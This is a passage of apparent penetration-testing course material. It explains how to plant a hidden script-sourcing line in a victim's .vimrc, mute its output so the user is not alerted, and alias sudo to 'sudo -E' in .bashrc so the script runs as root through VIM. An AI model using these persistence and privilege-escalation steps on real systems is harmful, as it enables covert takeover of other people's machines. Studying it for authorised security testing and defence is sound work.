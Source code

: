 We can also “import” other VIM configuration files into the user’s current config with the `:source` command.

We can modify the user’s `.vimrc` file in their home directory (or create one if they don’t have it) and add the following line.
```bash
!source ~/.vimrunscript
```

Next, we can create the shell script file at /home/offsec/.vimrunscript with the following contents:
```bash
#!/bin/bash
echo "hacked" > /tmp/hacksrcout.txt
```

If we run vim as the user:
```bash
offsec@linuxvictim:~$ vi /tmp/test.txt
:!source /home/offsec/.vimrunscript
Press ENTER or type command to continue
```

This is obviously undesirable as it would tip off the user. Luckily, VIM has a built-in command for this, the `:silent` command mutes any debug output:
```bash
:silent !source ~/.vimrunscript
```

If the user has sudo access, we may be able to do more.

We can weaponize this VIM vector to gain root privileges if the user runs VIM as root or uses the visudo command.

In some systems such as Ubuntu and Red Hat, VIM will use the current user’s .vimrc configuration file even in a sudo context. In other distributions, such as Debian, in a sudo context, VIM will use the root user’s VIM configuration.

In an assessment on an Ubuntu, Red Hat, or similar system, if the user runs VIM via sudo, our script being sourced will also run as root. Because of this, we will achieve root access without any extra effort. On a Debian or similar system that does not persist the user’s shell environment information when moving to a sudo context, we can add an `alias` to the user’s `.bashrc` file.
```bash
alias sudo="sudo -E"
```

This will substitute the standard sudo command with one that has the `-E` flag to force sudo to persist the user's VIM settings. Now we just run `source` to apply the changes:
```bash
offsec@linuxvictim:~$ source ~/.bashrc
```

In some cases, users are given limited sudo rights to run only specific programs. We can check this from a shell using the following command (we’re using the linuxvictim user here).
```bash
linuxvictim@linuxvictim:~$ sudo -l
Matching Defaults entries for linuxvictim on linuxvictim:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/b
in
User linuxvictim may run the following commands on linuxvictim:
(root) NOPASSWD: /usr/bin/vim /opt/important.conf
```
